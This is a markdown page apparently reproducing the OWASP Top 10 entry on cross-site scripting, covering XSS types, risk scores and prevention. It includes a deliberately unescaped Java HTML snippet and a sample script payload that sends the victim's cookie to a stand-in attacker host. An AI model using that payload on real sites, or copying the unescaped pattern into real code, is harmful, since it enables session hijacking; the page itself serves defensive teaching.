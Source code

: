 ```yaml
---
name: A7 Cross-site scripting (XSS)
menu: OWASP Top 10
route: /owasp/a7_cross-site_scripting_xss
---
```


# A7 Cross-site scripting (XSS)

## Definition

XSS flaws occur whenever an application includes untrusted data in a new web page without
proper validation or escaping, or updates an existing web page with user-supplied data using a
browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the
victim’s browser which can hijack user sessions, deface web sites, or redirect the user to
malicious sites.

## Risk Factor Summary

- Score: 6.0
- Attack Vectors Exploitability: 3
- Security Weakness Prevalence: 3
- Security Weakness Detectability: 3
- Impact Technical: 2

## Context

<iframe width="100%" height="450"
src="https://www.youtube.com/embed/IuzU4y-UjLw">
</iframe>

Automated tools can detect and
exploit all three forms of XSS, and
there are freely available exploitation
frameworks.


XSS is the second most prevalent issue in the
OWASP Top 10, and is found in around two-thirds of
all applications.


Automated tools can find some XSS problems
automatically, particularly in mature technologies
such as PHP, J2EE / JSP, and ASP.NET.


The impact of XSS is moderate for
reflected and DOM XSS, and severe
for stored XSS, with remote code
execution on the victim's browser,
such as stealing credentials,
sessions, or delivering malware to the
victim.

## Is the Application Vulnerable?

There are three forms of XSS, usually targeting users' browsers:

- **Reflected XSS:** The application or API includes unvalidated and
unescaped user input as part of HTML output. A successful
attack can allow the attacker to execute arbitrary HTML and
JavaScript in the victim’s browser. Typically the user will need to
interact with some malicious link that points to an attackercontrolled page, such as malicious watering hole websites,
advertisements, or similar.

- **Stored XSS:** The application or API stores unsanitized user
input that is viewed at a later time by another user or an
administrator. Stored XSS is often considered a high or critical
risk.

- **DOM XSS:** JavaScript frameworks, single-page applications, and
APIs that dynamically include attacker-controllable data to a
page are vulnerable to DOM XSS. Ideally, the application would
not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover,
MFA bypass, DOM node replacement or defacement (such as
trojan login panels), attacks against the user's browser such as
malicious software downloads, key logging, and other client-side
attacks.

## How to Prevent

Preventing XSS requires separation of untrusted data from
active browser content. This can be achieved by:
- Using frameworks that automatically escape XSS by design,
such as the latest Ruby on Rails, React JS. Learn the
limitations of each framework's XSS protection and
appropriately handle the use cases which are not covered.
- Escaping untrusted HTTP request data based on the context in
the HTML output (body, attribute, JavaScript, CSS, or URL) will
resolve Reflected and Stored XSS vulnerabilities. The OWASP
[Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data
escaping techniques.
- Applying context-sensitive encoding when modifying the
browser document on the client side acts against DOM XSS.
When this cannot be avoided, similar context sensitive
escaping techniques can be applied to browser APIs as
described in the [OWASP Cheat Sheet 'DOM based XSS
Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
- Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) is a defense-in-depth
mitigating control against XSS. It is effective if no other
vulnerabilities exist that would allow placing malicious code via
local file includes (e.g. path traversal overwrites or vulnerable
libraries from permitted content delivery networks).

## Conceptual Attacks

### Scenario #1: 
The application uses untrusted data in the
construction of the following HTML snippet without validation or
escaping:
```
(String) page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";
```

The attacker modifies the ‘CC’ parameter in the browser to:
```
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'
```

This attack causes the victim’s session ID to be sent to the
attacker’s website, allowing the attacker to hijack the user’s
current session.

Note: Attackers can use XSS to defeat any automated CrossSite Request Forgery (CSRF) defense the application might
employ.

## Hacking Playground

- [🐐 NodeGoat | A7 Cross-site scripting (XSS)](https://nodegoat.herokuapp.com/tutorial/a7)
- [🧃 Pwning OWASP Juice Shop | A7 Cross-site scripting (XSS)](https://pwning.owasp-juice.shop/part2/xss.html)

## References

### OWASP

- [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community//xss-filter-evasion-cheatsheet)

### CWEs

- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)